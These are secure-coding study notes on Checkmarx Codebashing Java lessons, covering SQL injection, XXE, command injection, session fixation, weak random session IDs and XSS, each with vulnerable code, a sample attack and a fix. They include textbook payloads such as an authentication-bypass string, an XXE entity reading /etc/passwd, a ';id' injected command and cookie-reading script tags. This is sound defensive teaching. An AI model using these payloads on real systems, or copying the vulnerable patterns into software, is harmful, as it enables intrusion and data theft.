 = Java Security code bashing
Thomas SCHWENDER <https://github.com/ardemius[@ardemius]>
// Handling GitHub admonition blocks icons
ifndef::env-github[:icons: font]
ifdef::env-github[]
:status:
:outfilesuffix: .adoc
:caution-caption: :fire:
:important-caption: :exclamation:
:note-caption: :paperclip:
:tip-caption: :bulb:
:warning-caption: :warning:
endif::[]
:imagesdir: images
:resourcesdir: resources
:source-highlighter: highlightjs
// Next 2 ones are to handle line breaks in some particular elements (list, footnotes, etc.)
:lb: pass:[<br> +]
:sb: pass:[<br>]
// check https://github.com/Ardemius/personal-wiki/wiki/AsciiDoctor-tips for tips on table of content in GitHub
:toc: macro
:toclevels: 3
// To turn off figure caption labels and numbers
//:figure-caption!:
// Same for examples
//:example-caption!:
// To turn off ALL captions
:caption:

toc::[]

Those courses come from the *Security Codebashing* of *Checkmarx*. +
(*Codebashing* is a hands-on, interactive solution that fits into developers' daily routines). +
It covers the *2021 Top 10 OWASP security risks* for software development.

A free, incomplete, version is available at https://free.codebashing.com/.

== Java Classic

=== Injection

==== SQL Injection

SQL Injection is a type of application security vulnerability whereby a malicious user is able to manipulate the SQL statements that the application sends to the backend database server for execution. A successful SQL injection attack exposes the data of the underlying database directly to the attacker. Play and Learn...

.BAD way to check authentication through a SQL statement
[source,java]
----
String email = request.getParameter("email");
String password = request.getParameter("password");

String sql = "select * from users where (email ='" + email +"' and password ='" + password + "')";

Connection connection = pool.getConnection();
Statement statement = connection.createStatement();
ResultSet result = statement.executeQuery(sql);

if (result.next()) {
    loggedIn = true;
    // Successfully logged in and redirect to user profile page
} else {
    // Auth failure - Redirect to Login Page
}
----

* The string variable sql is then declared, which represents the SQL query used to authenticate Kevin's credentials. +
Note, that Kevin's email and password values are concatenated to build the final query.
* The SQL query defined in sql string variable is then executed by invoking the executeQuery method. This method executes our query against the backend SQL server and returns a ResultSet object which is checked on line 10 through the if/else block. +
Finally, should Kevin's credentials match, the loggedIn variable is set to true and she is redirected to her profile page.

With the previous code, if we try as password the string `' or 1=1)#'`, here is what the SQL statement will look like:

.SQL injection attack example
[source,SQL]
----
String sql = "select * from users where (email ='" + email +"' and password ='" + password + "')";
​
// Below is the raw query sent to the DB:
"SELECT * FROM users WHERE (email = 'kevin@noob.com' AND password = '' or 1=1)#')"
----

* Because this statement is both syntactically valid and `OR 1=1` always returns true, *the authentication mechanism is bypassed*.

The remediation to this issue is the use of *prepared statements*.

Prepared statements (aka parameterized queries) are the best mechanism for preventing SQL injection attacks.

*Prepared statements are used to abstract SQL statement syntax from input parameters*. Statement templates are first defined at the application layer, and the parameters are then passed to them.

Aside from a better protection against SQL injection attacks, prepared statements offer *improved code quality* from a legibility and maintainability perspective due to the *separation of the SQL logic from its inputs*.

==== XXE - XML eXternal Entity

*XML External Entity* (XXE) Processing is a type of application security vulnerability whereby a malicious user can *attack poorly configured/implemented XML parser within an application*. +
Malicious external entity references can be forced by an attacker, which results in unauthorized read-access to sensitive files on the server that the XML parser runs from. Denial of Service is another potential outcome. Play and Learn...

In this interactive tutorial you will understand how XML eXternal Entity (XXE) processing attacks are used to compromise the security of a web application, and how to write code more securely to protect against this type of attack.

NOTE: Throughout this module we will use the following terms interchangeably: XML Parser, SAX Parser and XML Processor.

.classic XML trade file
[source,xml]
----
<trades>
    <metadata>
        <name>Apple Inc</name>
        <stock>APPL</stock>
        <trader>
            <name>C.K Frode</name>
        </trader>
        <units>1500</units>
        <price>106</price>
        <name>Microsoft Corp</name>
        <stock>MSFT</stock>
        <trader>
            <name>C.K Frode</name>
        </trader>
        <units>5000</units>
        <price>45</price>
        <name>Amazon Inc</name>
        <stock>AMZN</stock>
        <trader>
            <name>C.K Frode</name>
        </trader>
        <units>4500</units>
        <price>195</price>
    </metadata>
</trades>
----

An XXE attack works by taking advantage of a feature in XML, namely *XML eXternal Entities (XXE)* that *allows external XML resources to be loaded within an XML document*. +
By submitting an XML file that defines an external entity with a file:// URI, an attacker can effectively trick the application's SAX parser into reading the contents of arbitrary file(s) that reside on the server-side filesystem.

.Malicious XML file
[source,xml]
----
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY bar SYSTEM "file:///etc/passwd" >]>
<trades>
  <metadata>
      <name>Apple Inc</name>
      <stock>APPL</stock>
      <trader>
          <foo>&bar;</foo>
          <name>C.K Frode</name>
      </trader>
      <units>1500</units>
      <price>106</price>
      <name>Microsoft Corp</name>
      <stock>MSFT</stock>
      <trader>
          <name>C.K Frode</name>
      </trader>
      <units>5000</units>
      <price>45</price>
      <name>Amazon Inc</name>
      <stock>AMZN</stock>
      <trader>
          <name>C.K Frode</name>
      </trader>
      <units>4500</units>
      <price>195</price>
  </metadata>
</trades>
----

* The DOCTYPE foo declaration references an external Document Type Definition (DTD) file, which we have named foo
* The XML declaration ELEMENT foo ANY declares that foo DTD can contain any combination of parsable data.
* Finally we use the XML declaration ENTITY to load additional data from an external resource. The syntax for the ENTITY declaration is ENTITY name SYSTEM URI where URI is the full path to a remote URL or local file. In our example we define the ENTITY tag to load the contents of "file:///etc/passwd"
* The following line maps our tag foo to the external entity &bar; that points to "file:///etc/passwd"
* When this XML document is processed by BatchTRADER's SAX parser, any instances of &bar; will get replaced by the contents of /etc/passwd file.

.Vulnerable code
[source,java]
----
public class TradeDocumentBuilderFactory {
    public static DocumentBuilderFactory newDocumentBuilderFactory() {
        DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
        try {
            documentBuilderFactory.setFeature("http://xml.org/sax/features/external-general-entities", true);
            documentBuilderFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", true);
        } catch(ParserConfigurationException e) {
            throw new RuntimeException(e);
        }
        return documentBuilderFactory;
    }
}
----

* The DocumentBuilderFactory class further contains a setFeature(String,boolean) method which can be used to set features on the underlying SAX parser.
* In this example the developers have configured the SAX parser using the setFeature method to enable loading of external-general-entities by setting it's value to true
* Similarly, the SAX parser has also been configured to process external-parameter-entities entities. Both of these options allow the SAX parser to load external entities, which when specified within our trade.xml file can be abused by an attacker to read arbitrary system files. Were these set to false the SAX parser would automatically reject the referencing of external entities.

Because user supplied XML input comes from an "untrusted source" it is very difficult to properly validate the XML document in a manner to prevent against this type of attack. +
Instead the XML processor should be configured to use only a locally defined Document Type Definition (DTD) and *disallow any inline DTD that is specified within user supplied XML document(s)*. +
Due to the fact that there are numerous XML parsing engines available, each has its own mechanism for disabling inline DTD to prevent XXE. You may need to search your XML parser's documentation for how to "disable inline DTD" specifically.

Let's see how the above fix can be applied to our vulnerable example to remediate the XXE vulnerability.

.Remediation
[source,java]
----
public class TradeDocumentBuilderFactory {
​
    public static DocumentBuilderFactory newDocumentBuilderFactory() {
        DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
        try {
//              documentBuilderFactory.setFeature("http://xml.org/sax/features/external-general-entities", true);
//              documentBuilderFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", true);
                documentBuilderFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
                documentBuilderFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
                documentBuilderFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);    
        } catch(ParserConfigurationException e) {
            throw new RuntimeException(e);
        }
        return documentBuilderFactory;
    }
}
----

* *The most robust method to protect against XXE attacks is to configure the applications XML parser to not allow DOCTYPE declarations*. +
This is done by setting the parsers disallow-doctype-decl parameter to true. With this set, an exception occurs if our trade.xml contains a DOCTYPE declaration and parsing stops, preventing the vulnerability from exposing sensitive information.
* However, if DOCTYPE declarations are required by the application, a good alternative is to configure the server side SAX parser to disallow declaring of external entities by setting the value for external-general-entities to false
* Similarly, we can also disable external-parameter-entities via the setFeature method.

==== Command Injection

A Command Injection vulnerability, when exploited by a malicious user, results in execution of arbitrary system commands on the host operating system. Command Injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers, etc) to a system command. The malicious system command is run server side with the same privileges as the application.

To create the analytical report, the web application's server-side code invokes a custom C++ application called statlab to perform the computationally intensive statistical analysis.

.Vulnerable code
[source,java]
----
//
// The following is a code snippet illustrating the use of insecure command execution function in Java
//
​
public class CommandExecuter {
    public string executeCommand(String userName)
    {
        try {
            String myUid = userName;
            Runtime rt = Runtime.getRuntime();
            rt.exec("/usr/bin/statlab " + ”-“ + myUid); // Call statlab with Kevin's username
​
            // process results for userID and return output in HTML.
            // ...
​
        }catch(Exception e)
        {
            e.printStackTrace();
        }    
    }
}
----

* The executeCommand method calls the `java.lang.Runtime.exec()` function which invokes the /usr/bin/statlab application. The `exec()` method further accepts myUID as a parameter, whose value is passed to statlab program as an argument. +
For Kevin's profile the resulting string executed by `exec()` would be: `/usr/bin/statlab -kevin`

To understand how command injection attacks work, let us analyze the URL passed to our server-side code.

    https://tradeadmin.codebashing.com/console/execute?username=Kevin

When Kevin generates a Risk Analysis report, the TradeADMIN server parses the above URL, specifically the query string `username=Kevin` which is then passed to the function to generate analytical reports for Kevin's trading account.

If, in the previous URL, we append the ";id" string:

    https://tradeadmin.codebashing.com/console/execute?username=Kevin;id

In addition to the classic result (the analytical report), an Unexpected Output Error is also displayed:

----
ERROR: Unexpected output encountered: uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=root:sysadm_r:sysadm_t
----

This error comes from the previous "id" string that was added at the end of the URL, and which *has been executed as the UNIX `id` command*, that returns the user id for the user that ran the command.

* In the previous code, the executeCommand method initializes a runtime environment by invoking Runtime.getRuntime() method that allows the TradeADMIN application to interface with it's runtime environment.
* Finally executeCommand invokes the statlab program via `exec()`, passing Kevin's modified query string `Kevin;id` as an argument through myUid string variable. The final command executed on TradeADMIN server would be: `statlab -Kevin;id`
{lb}
However note that `myUid` value is not validated in any way before being passed to the `exec()` method. Given that the ";" character is interpreted as a command separator in UNIX like operating systems, *Kevin's query string is interpreted by `exec()` method as two separate commands* i.e statlab -Kevin and id

.Remediation
[source,java]
----
//
// The following is a code snippet illustrating the use of insecure command execution function in Java
//
​
public class CommandExecuter {
    public string executeCommand(String userName)
    {
        try {
            String myUid = userName;
            if (!Pattern.matches("[-A-Za-z]+", myUiD)) {  
                return false;
        }
            Runtime rt = Runtime.getRuntime();
            rt.exec("/usr/bin/statlab " + ”-“ + myUid); // Call statlab with Kevin's username
​
            // process results for userID and return output in HTML.
            // ...
​
        }catch(Exception e)
        {
            e.printStackTrace();
        }
    }
}
----

* In our modified code example, an additional check is introduced which performs input validation against the myUiD string variable. To accomplish this, we make use of Java's `Pattern.matches()` method to run a regular expression search on myUiD variable, identifying non alphanumeric characters e.g. `; , < , > , " , ' , &` .
{lb}
Should any non alphanumeric characters be encountered, the `if` check will fail and return, thus preventing malicious control shell characters from being passed to the `statlab` program.

[NOTE]
======
Note: Although the proposed fix is sufficient to remediate our vulnerable example, the overall logic and security design for executeCommand() method can be significantly improved by not accepting user supplied myUiD value through the username parameter.

A better approach would be to extract Kevin's username from a database record or a static index variable that is set during Kevin's account creation process, which can then be passed as an argument to the statlab program for execution.
======

Some examples of OS Command Injection attacks can be found on Checkmarx resources https://www.checkmarx.com/knowledge/knowledgebase/os-command-injection

=== Broken Authentication and Session Management

==== Session Fixation

*Session Fixation* is a type of application vulnerability where *an application does not correctly renew session tokens when changing from a pre-login to post-login state*. The same pre-login session token should not be used post-login, otherwise an attacker has the potential to steal authenticated sessions of legitimate users. When a session of one user is stolen by another, it is known as a "hijacked session". Play and Learn...

As an example, when trying to login to a Web application, the URL returned by the server could look like this one:

    https://tradesupport.codebashing.com/trade_support/log-in?app_session_id=tWwO8aTiYZXJy2ZW2zNsVOVVQD6POgrW

The web application has assigned Kevin a unique *session identifier* (also known as a *session token*). +
In our example, Kevin's session identifier is set to: `tWwO8aTiYZXJy2ZW2zNsVOVVQD6POgrW`

An attacker will also get an session token when clicking on the Web application "login" button :

    https://tradesupport.codebashing.com/trade_support/log-in?app_session_id=y4hJoGIcuV1v1kSKwo5y9iLDKRiSHobs

The attacker then send this URL to a user, asking him to login with it (for some false reasons)

Kevin has logged in successfully, and the attacker, that was keeping regularly refreshing the login page, has successfully bypassed the authentication and accessed kevin's web session without trying to guess or brute force her credentials. +
Because of this *Session Fixation* attack, the attacker has managed to *hijack* Kevin's session!

.Vulnerable code
[source,java]
----
private Boolean authenticate(HttpServletRequest request, String credential, String password) {
        try {
            request.getSession(true);
            if (request.getUserPrincipal() === null) {
                request.login(credential, password);
            }
            return true;
​
        } catch (ServletException ex) {
            log.log(Level.WARNING, "Error when authenticate", ex);
        }
        return false;
}
----

The authenticate() function calls login() which verifies Kevin's credentials. However his existing session is not invalidated before invoking the login() method.

This means his pre-login session identifier would remain unchanged post login.

Given that the attacker knows Kevin's pre-authentication session value, he can successfully impersonate his authenticated session once Kevin has logged onto the TradeSUPPORT application.

A combination of the following best practices could help to defend against Session Fixation attacks:

    1. Ensure that only *server-generated session* values are accepted by the application.
    2. Upon a successful login, *invalidate the original session token*, and re-issue a new session token.
    3. *Prevent* the application from accepting session tokens via *GET* or *POST* requests and instead store session values within HTTP cookies only.

.Remediation
[source,java]
----
private Boolean authenticate(HttpServletRequest request, String credential, String password) {
        // Prevent Session Fixation (http://en.wikipedia.org/wiki/Session_fixation)
        HttpSession session = request.getSession(false);
        if (session != null) {
          session.invalidate();
        }
        try {
            request.getSession(true);
            if (request.getUserPrincipal() === null) {
                request.login(credential, password);
            }
            return true;
​
        } catch (ServletException ex) {
            log.log(Level.WARNING, "Error when authenticate", ex);
        }
        return false;
}
----

Here a new session identifier is generated for Kevin by invoking request.getSession(true) method, ensuring his *session identifier gets recycled prior to authentication*.

Should the attacker now attempt a session fixation attack against Kevin, it would fail because the session identifier has changed from it's original value that was known previously to the attacker, thus preventing the hijacking of Kevin's session.

.Reminder
NOTE: Session fixation happens when the application uses the same session token before and after the user authenticates. After authentication, the application just upgrades the token to give access to the functionality that requires authentication.

==== Use Of Insufficiently Random Values

*Insufficiently Random Values* are an application security vulnerability whereby the application generates predictable values in sensitive areas of code that absolutely require strict randomness (unpredictability). As a result it may be possible for an attacker to predict the next value generated by the application to defeat cryptographic routines, access sensitive information, or impersonate another user.

.Vulnerable code
[source,java]
----
// Generate and return a new session identifier.
​
protected String newSession()
{
    long now = System.currentTimeMillis();
​
    return encode(now);
}
​

private String encode(long time)
{
    return new String(Long.toString(time));
}
----

The best way to remediate the *Insufficiently Random Values* vulnerability is to use an algorithm that is currently considered to be strong by experts in the field, and select well-tested implementations with the seeds of the adequate length.

In general, if a *pseudo-random number generator* is not advertised as being cryptographically secure, it should not be used in security-sensitive contexts.

Pseudo-random number generators can produce predictable numbers if the generator is known and the seed can be guessed. A *256-bit seed* is a good starting point for producing a "random enough" number.

.Remediation
[source,java]
----
// Generate and return a new session identifier.
​
protected String newSession()
{
    //  long now = System.currentTimeMillis();
        SecureRandom rand = new SecureRandom();
        byte bytes[] = new byte[20];    
        rand.nextBytes(bytes);  
        String cookie = new String(Hex.encodeHex(bytes));   
        return cookie   
    //  return encode(now);
}
​
    //private String encode(long time)
    //{
    //  return new String(Long.toString(time));
    //}
----

In Java, generating a series of cryptographically secure random numbers can be achieved by using the `java.security.SecureRandom` class. 

In our modified code example, we first create a SecureRandom object and assign it to the variable `rand`.
Then we call `rand.nextBytes()` method that generates 20 bytes of random data which is hex encoded using the `encodeHex()` method on line 11 and assigned to the string variable cookie.

* *What are the consequences of insufficiently random values usage?*
    ** Session ID could be predicted and an attacker could access the application as another user

=== Cross-Site Scripting

==== Reflected Xss

Unlike Persistent XSS, with *Reflected Cross-site Scripting (XSS)* attacker-supplied script code is never stored within the application itself. Instead the attacker crafts a *malicious request to the application to illicit a single HTTP response* by the application that contains the attacker's supplied script code. Successful attacks require victim users to open a maliciously crafted link (which is very easy to do). 

Bob is an attacker and wants to execute his malicious JavaScript code in Alice's browser. +
If Bob is successful in his attack, he can steal Alice's session token, thus gaining access to the application using the same session as Alice!

Using a *stolen session token to access an application* as another user is known as *Session Hijacking*.

Bob writes a malicious email to Alice, asking her to check out a new research report at the TradeSEARCH portal.

----
Hi Alice,

TradeSEARCH portal was recently updated with some interesting research papers provided by our leading analysts. To save you time, use the link below:

https://tradesearch.codebashing.com/projects?search=%3Cscript%3Ealert('You got hacked')%3C%2Fscript%3E

Kind Regards,
Bob
----

Alice would normally ignore unsolicited emails, but the information looks relevant to her and she decides to open it. +
When Alice clicks on the link that Bob sent her, the website loads as expected. +
However, Bob's malicious JavaScript code was also executed in Alice's browser.

NOTE: This ability to *execute a malicious script in a user's browser* is known as a *Cross-site Scripting vulnerability*.

Let's now analyze how the vulnerability occurred. +
Note that if Bob was a smarter attacker, he could have stolen Alice's session instead of just displaying a pop-up window in her browser.

.Vulnerable code
[source,html]
----
//
// Pseudocode for Project Search JSP webpage
//
​
<c:when test="${f:h(allRecordCount) != 0}">
<jsp:include page="searchResults.jsp"/>
</c:when>
<c:otherwise>
  <h4>No results found for: </h4>
  <p><em><strong><%= request.getParameter("search") %></strong></em></p>
</c:otherwise>
----

* In order to generate the search results web page, TradeSEARCH developers have used the JSP Standard Templating Library (JSTL) which provides standard actions and methods for formatting and rendering HTML pages.
* When rendering a user's search result web page, the `c:when` conditional tag is called to check if any search results were returned by the server, which are then formatted and rendered by searchResults.jsp on line 6
* However, should no matching results be found for a specified keyword, the `c:otherwise` conditional tag will render the HTML markup on line 9 and 10 that renders a "No results found for:" message followed by the user supplied search phrase.
* To render the "No results found for:" error message followed by our search phrase string, `request.getParameter()` method is called to extract the search parameter from the URL which then gets directly rendered as a JSP expression. +
e.g. For `projects?search=sometext` the JSP expression `request.getParameter("search")` will yield sometext which is finally rendered in the user's browser.
* Unfortunately, *JSP's expression language does not escape expression values*, so if the search parameter contained HTML formatted data, *Java's EL expression will simply render this string* without escaping or encoding it first. +
Finally when the "No results found for:" message is displayed, the search parameters HTML data string will also get rendered, thereby allowing code injection in the users browser context.

The *main Reflected XSS remediation strategy* is to treat all the user input as a text, not as a code. This can be achieved by the following actions:

    1. *Escape user input* using language-specific or framework-specific instruments, like templates or contextual escaping. Usually, these mechanisms are enabled by default, so make sure not to disable them.

    2. Know all the locations where user input is used, and try to *avoid returning unsanitized user input* to potentially dangerous locations like HTML body and attributes, javascript, GET parameters, URLs, links, CSS.

    3. Use *additional security controls* that help to prevent XSS in case escaping controls fail or are missing.

        * *`HTTPOnly` cookie flag*. This flag prevents Javascript from accessing the cookie content, thus protecting it from being stolen if Reflected XSS is present.
        * *Content Security Policy HTTP Header*. This header restricts sources of all the page's content, including javascript code, to the *whitelist of sources*, thus making XSS exploitation more hard to perform.
        * *X-XSS-Protection HTTP Header*. This header prevents browsers from loading a page if they detect Reflected XSS exploitation.

.Remediation
[source,html]
----
//
// Pseudocode for Project Search JSP webpage
//
​
<c:when test="${f:h(allRecordCount) != 0}">
<jsp:include page="searchResults.jsp"/>
</c:when>
<c:otherwise>
  <h4>No results found for: </h4>
    <p><em><strong><c:out value="${<%= request.getParameter("search") %>}"/></strong></em></p>
//    <p><em><strong><%= request.getParameter("search") %></strong></em></p>
</c:otherwise>
​
----

The *most effective method to protect against XSS attacks* is by using JSTL's `c:out` tag or `fn:escapeXml()` EL function when displaying user-controlled input. +
These tags will automatically *escape and encode HTML characters* within the rendered HTML including `<` , `>` , `"` , `'` and `&` thereby preventing injection of potentially malicious HTML code.

* *What is the necessary condition for Reflected XSS attack?*
    ** *User input is returned in HTTP response to the browser*, e.g. in an error or a search result +
    The core concept of reflected XSS is exploiting user input reflected to user's browser in errors, search results, etc. The attacker tricks a user to open a vulnerable site with a malicious script inserted into the input field. This script is reflected back to user's browser and is treated by the browser as a part of the site.

=== Stored (Persistent) XSS

*Persistent Cross-Site Scripting (XSS)* is an application vulnerability whereby a malicious user tricks a web application into *storing attacker-supplied script code which is then later served* to unsuspecting user(s) of the application. The attacker-supplied script code runs on the client-side system of other end user(s) of the application. This type of vulnerability is widespread and affects web applications that utilize (unvalidated) user-supplied input to generate (unencoded) application output, that is served to users. 

Although Bob is a legitimate user of the application, he plans to attack other users. +
Log in as Bob with the following credentials:

    * Username: bob@bank.com
    * Password: bob123

Bob wants to add new contact records to the Partners List. +
When the New Contact page opens, Bob decides to put the malicious script into one of the input fields. He created the following script:

    <script>alert(document.cookie)</script>

Then he pastes it into the Name input field and clicks Save to send the contents of the form to the server and save the new contact to the application's database.

Bob successfully saved this unusual contact record to the application's database. +
To investigate the impact on other users of the application, we need first to log out from Bob's account and close his application session.

Alice opens the application to look up the most recent list of contacts. +
Log in as Alice using her authentication credentials:

    * Username: alice@bank.com
    * Password: alice123

Interesting! When Alice logs in to the application to view contact records, something strange happens – a browser alert appears. +
It seems that the malicious script that Bob saved in the contact record was executed in Alice's browser. This script code was the following:

    <script>alert(document.cookie)</script>

Let's look at the vulnerable code to understand how the Stored Cross-Site Scripting attack works at the code level :

.Vulnerable code
[source,java]
----
//
// The following is a code snippet illustrating the use of insecure encoding/decoding in Java
//
​
<table>
    <c:forEach var="contact" items="${contacts}">
        <tr>
              <td>${contact.name}</td>
              <td>${contact.title}</td>
              <td>${contact.number}</td>
        </tr>
    </c:forEach>
</table>
----

Each contact object is rendered within the td tags using Java's JSP expression language (EL) syntax `${}`. This feature allows outputting the result of a contact object by first evaluating the object expression.

For example, to extract Alice's name, the expression `<td>${contact.name}</td>` will be evaluated and replaced by the string Alice in the final HTML output markup.

Unfortunately, *JSP's EL function does not escape expression values*, so if Bob saved a contact card, whose name , title or number field contained HTML formatted data, Java's EL expression will simply render the input without escaping or encoding it first. +
Finally when the web page is loaded by Alice, Bob's malicious HTML will get rendered in Alice's browser.

To *defend against Stored Cross-Site Scripting attacks*, it is important to *ensure that user-supplied data output is encoded before being served* by the application to other users.

*Output encoding* effectively works by escaping user-supplied data immediately before it is served to users of the application.

When the data is correctly escaped before being served to the user for display in their browser, the browser does not interpret it as code and instead interprets it as data, thus ensuring it does not get executed.

For example, the string `<script>` is converted to `&lt;script&gt;` when properly escaped and is simply rendered as text in the user's browser window rather than being interpreted as code.

.Remediation
[source,java]
----
//
// The following is a code snippet illustrating the use of insecure encoding/decoding in Java
//
​
<table>
    <c:forEach var="contact" items="${contacts}">
        <tr>
//              <td>${contact.name}</td>
//              <td>${contact.title}</td>
//              <td>${contact.number}</td>
                <td><c:out value="${contact.name}"/></td>
                <td><c:out value="${contact.title}"/></td>  
                <td><c:out value="${contact.number}"/></td> 
        </tr>
    </c:forEach>
</table>
----

The *most effective method to protect against XSS attacks* is by using JSTL's `c:out` tag or `fn:escapeXml()` EL function when displaying user-controlled input. These tags will automatically escape and encode HTML characters within the rendered HTML including `<` , `>` , `"` , `'` and & thereby preventing injection of potentially malicious HTML code.

How does an attacker exploit Stored XSS?

    * Attacker sends a malicious script to a server using a vulnerable functionality (e.g. comments), and the script is successfully saved to the server. Then this script is served to users and executed in their browsers. +
    Stored XSS is possible when a malicious script is saved on the server without sanitization and then served to the application users unsanitized.

=== DOM Cross Site Scripting

*Document Object Model (DOM) Based XSS* is a type of XSS attack wherein the attacker's payload is executed as a result of modifying the DOM “environment” in the victim’s browser used by the original client side script, so that the client side code runs in an “unexpected” manner. That is, the page itself (the HTTP response that is) does not change, but the client side code contained in the page executes differently due to the malicious modifications that have occurred in the DOM environment.

The vulnerable application pane loads the TradeNEWS application, an online financial news platform that provides in-depth analysis of financial products, market indexes, and currencies.

Alice is a guest (anonymous) user of the TradeNEWS system. She has just loaded the application in her web browser. +
Alice decides to read a news report and proceeds by clicking the Thursday Share Tips news article.

It appears that Alice is not a paid member of the TradeNEWS portal, so she is redirected to a login screen to sign up for a paid membership or log in with existing credentials.

Notice that a "welcome" message:

    Hello guest! Please log in or sign up to access news stories
    
is displayed as a part of the TradeNEWS login screen. Before we proceed with our DOM XSS attack, let's quickly analyze the source code used to generate this message.

[source,javascript]
----
//
// Pseudocode for Landing web page
//
<h6>
<script>
​
    var name = document.location.hash.split('#')[1]; 
//https://tradenews.codebashing.com/guests/landing#guest
​
    document.write("Hello " + name + "! Please login or signup to access news stories");    
​
</script>
</h6>
----

The javascript code `document.location.hash.split('#')[1]` returns the anchor part of the TradeNEWS URL which is set to `#guest` +
(TradeNEWS URL : `https://tradenews.codebashing.com/guests/landing#guest`)

The code `split('#')[1]` extracts the string "guest" and assigns it to name variable.

Finally, the name variable is concatenated with the alert message text and written to the Document Object Model (DOM) using javascript's `document.write()` method.

Before we proceed with the attack, go ahead and try replacing *guest* with the string *myinput* in the address bar of the fake browser. Keep an eye on the code window to see the code being updated in real time with your input string.

Bob is an attacker and has just discovered a DOM XSS vulnerability within the TradeNEWS website, specifically in the JavaScript code responsible for displaying the "welcome” message. +
Bob knows that by exploiting the DOM XSS vulnerability he can trick Alice into submitting her credit card details to Bob, but how can he organize this?

